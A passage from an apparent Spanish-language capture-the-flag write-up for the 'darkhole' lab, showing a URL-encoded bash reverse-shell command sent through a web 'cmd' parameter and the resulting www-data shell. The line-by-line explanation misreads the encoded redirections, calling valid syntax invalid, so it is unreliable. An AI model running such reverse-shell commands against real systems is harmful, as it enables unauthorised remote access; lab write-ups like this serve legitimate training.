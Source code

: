 Y ejecutamos el siguiente comando desde el navegador:

```
cmd= bash -c "bash -i >%26 /dev/tcp/192.168.93.132/443 O>%261"
```
1. `cmd=`: Esto parece ser una variable o un identificador para el comando que se va a ejecutar. Es probable que esta variable se use más adelante en el script o en el contexto en el que se encuentra. 
2. `bash -c "..."`: Aquí se está invocando el shell Bash para ejecutar un comando. El flag `-c` se utiliza para indicar que se proporcionará un comando como argumento. Lo que sigue a continuación entre las comillas dobles es el comando que se ejecutará.
3. `"bash -i >%26 /dev/tcp/192.168.93.132/443 O>%261"`: Esto es el comando real que se ejecutará dentro de Bash. Aquí está desglosado:
    - `bash -i`: Esto inicia una sesión interactiva de Bash, lo que significa que el shell espera la entrada del usuario y proporciona una interfaz de línea de comandos interactiva.
    - `>%26`: Esto redirige la salida estándar (stdout) a un descriptor de archivo específico. El `>%26` probablemente se utilice para redirigir la salida estándar a un archivo o dispositivo específico.
    - `/dev/tcp/192.168.93.132/443`: Esta parte establece una conexión TCP con la dirección IP 192.168.93.132 en el puerto 443. En otras palabras, este comando intenta conectarse a un servidor en la dirección IP especificada y al puerto 443. 
    - `O>%261`: Esta parte también parece estar relacionada con la redirección de la salida, pero la sintaxis utilizada es inusual y no estándar. El uso de `O>%261` podría ser un error tipográfico o una sintaxis incorrecta, ya que no es una forma válida de redirigir la salida en Bash.

![imagen](/images/darkhole/Pasted%20image%2020231021040815.png)

Como se observa a continuación, tenemos ya la consola remota entablada, pero no es del todo cómoda para trabajar es por ello que debemos de realizar un tratamiento de la TTY:
```
www-data@darkhole:/var/www/html/upload$ hostname -I
hostname -I
192.168.93.136 
www-data@darkhole:/var/www/html/upload$ whoami
whoami
www-data
www-data@darkhole:/var/www/html/upload$ 
```
